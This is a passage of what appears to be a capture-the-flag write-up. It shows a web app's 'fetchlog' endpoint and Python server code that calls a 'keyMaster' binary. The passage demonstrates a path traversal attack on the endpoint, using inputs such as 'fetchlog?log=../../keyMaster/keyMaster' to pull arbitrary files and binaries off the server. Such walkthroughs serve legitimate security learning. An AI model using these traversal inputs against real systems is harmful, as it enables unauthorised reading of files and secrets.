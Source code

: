 ```html
  <div class="column">
    <div class="box">
 	<h3 style="text-align:center;">Key Generation Log </h3>
        <p> Access the key generation log, for troubleshooting purposes. </p>
	<button type="button" onclick="window.location.href = 'fetchlog?log=keygeneration.log'"> Retrieve List </button>
  </div>
  </div>
```

So seems like its going to `fetchlog?log=keygeneration.log`, lets check if we can do a path traversal exploit by going to root using `fetchlog?log=../..`:

![Fetchlog](https://i.imgur.com/1j2YAUU.png)

Awesome, so lets see what we can get. Looking into into the [app/sever.py](../TaskB2/repo/app/server.py) code more, we can see multiple references to a file called `keyMaster`:

```py
def lock():
# (snipped)
	result = subprocess.run(["/opt/keyMaster/keyMaster", 
								'lock',
								str(cid),
								request.args.get('demand'),
								util.get_username()],
								capture_output=True, check=True, text=True, cwd="/opt/keyMaster/")
# (snipped)

def unlock():
# (snipped)
	result = subprocess.run(["/opt/keyMaster/keyMaster", 
								'unlock', 
								request.args.get('receipt')],
							capture_output=True, check=True, text=True, cwd="/opt/keyMaster/")
# (snipped)

def credit():
# (snipped)
	result = subprocess.run(["/opt/keyMaster/keyMaster", 
							'credit',
							args.get('hackername'),
							args.get('credits'),
							args.get('receipt')],
							capture_output=True, check=True, text=True, cwd="/opt/keyMaster")
# (snipped)
```

So how do we get `keyMaster`, well, since we know that `fetchlog?log=../..` is opt, we can go to `fetchlog?log=../../keyMaster/keyMaster`:

![Fetchlog](https://i.imgur.com/m2sIS6M.png)
